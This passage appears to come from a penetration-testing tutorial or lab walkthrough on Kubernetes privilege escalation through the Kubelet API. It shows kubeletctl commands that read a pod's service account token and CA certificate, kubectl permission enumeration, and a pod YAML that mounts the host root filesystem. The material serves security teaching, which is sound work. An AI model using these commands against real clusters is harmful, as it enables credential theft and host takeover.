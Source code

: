 1.  Kubelet API - Extracting Tokens

        kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token
        
        eyJhbGciOiJSUzI1NiIsImtpZC...SNIP...UfT3OKQH6Sdw

2.  Kubelet API - Extracting Certificates

        kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt
        
        -----BEGIN CERTIFICATE-----
        MIIDBjCCAe6gAwIBAgIBATANBgkqhkiG9w0BAQsFADAVMRMwEQYDVQQDEwptaW5p
        <SNIP>
        MhxgN4lKI0zpxFBTpIwJ3iZemSfh3pY2UqX03ju4TreksGMkX/hZ2NyIMrKDpolD
        602eXnhZAL3+dA==
    
    Now that we have both the `token` and `certificate`, we can check the access rights in the Kubernetes cluster. This is commonly used for auditing and verification to guarantee that users have the correct level of access and are not given more privileges than they need. However, we can use it for our purposes and we can inquire of K8s whether we have permission to perform different actions on various resources.

3.  List Privilages

        export token=`cat k8.token`
        kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list
        
        Resources										Non-Resource URLs	Resource Names	Verbs 
        selfsubjectaccessreviews.authorization.k8s.io		[]					[]				[create]
        selfsubjectrulesreviews.authorization.k8s.io		[]					[]				[create]
        pods											[]					[]				[get create list]
        ...SNIP...
    
    Here we can see a few very important information. Besides the selfsubject-resources we can `get`, `create`, and `list` pods which are the resources representing the running container in the cluster. From here on, we can create a `YAML` file that we can use to create a new container and mount the entire root filesystem from the host system into this container's `/root` directory. From there on, we could access the host systems files and directories. The `YAML` file could look like following:
    
        apiVersion: v1
        kind: Pod
        metadata:
          name: privesc
          namespace: default
        spec:
          containers:
          - name: privesc
            image: nginx:1.14.2
            volumeMounts:
            - mountPath: /root
              name: mount-root-into-mnt
          volumes:
          - name: mount-root-into-mnt
            hostPath:
               path: /
          automountServiceAccountToken: true
          hostNetwork: true
    